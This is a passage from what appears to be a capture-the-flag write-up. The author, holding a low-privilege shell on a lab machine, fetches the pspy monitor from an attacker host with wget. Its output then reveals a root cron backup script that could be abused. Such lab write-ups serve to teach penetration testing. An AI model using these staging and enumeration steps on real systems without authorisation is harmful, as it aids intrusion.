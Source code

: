 There isn't much else in tom's home directory. There is an interesting
but empty directory at `/opt/backups`.

I'll upload [pspy](https://github.com/DominicBreuker/pspy):



    tom@epsilon:/dev/shm$ wget 10.10.14.8/pspy64
    --2022-03-09 20:40:37--  http://10.10.14.8/pspy64
    Connecting to 10.10.14.8:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64              100%[===================>]   2.94M  3.53MB/s    in 0.8s    

    2022-03-09 20:40:38 (3.53 MB/s) - ‘pspy64’ saved [3078592/3078592]
    tom@epsilon:/dev/shm$ chmod +x pspy64



On running, it seems to find `/usr/bin/backup.sh` running every minute:



    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
                                                                                                             
                                                                                                             
         ██▓███    ██████  ██▓███ ▓██   ██▓                                                                                                                                                                            
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒                                                                  
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░                                                                  
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░                                                                  
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░                                                                  
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒                                                                                                                                                                             
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░                                                                   
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░                                                                    
                       ░           ░ ░                                                                       
                                   ░ ░                                                                       
                                                                                                                                                                                                                       
    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursi
    ve) | [] (non-recursive)
    Draining file system events due to startup...
    done
    ...[snip]...
    2022/03/09 20:42:01 CMD: UID=0    PID=3754   | /usr/sbin/CRON -f 
    2022/03/09 20:42:01 CMD: UID=0    PID=3755   | /bin/sh -c /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3756   | /bin/bash /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3759   | /usr/bin/tar -cvf /opt/backups/462504870.tar /var/www/app/ 
    2022/03/09 20:42:01 CMD: UID=0    PID=3761   | /bin/bash /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3760   | sha1sum /opt/backups/462504870.tar 
    2022/03/09 20:42:01 CMD: UID=0    PID=3762   | sleep 5 
    2022/03/09 20:42:06 CMD: UID=0    PID=3763   | 
    2022/03/09 20:42:06 CMD: UID=0    PID=3764   | /usr/bin/tar -chvf /var/backups/web_backups/477319990.tar /opt/backups/checksum /opt/backups/462504870.tar 
    2022/03/09 20:42:06 CMD: UID=0    PID=3765   | 
    ...[snip]...
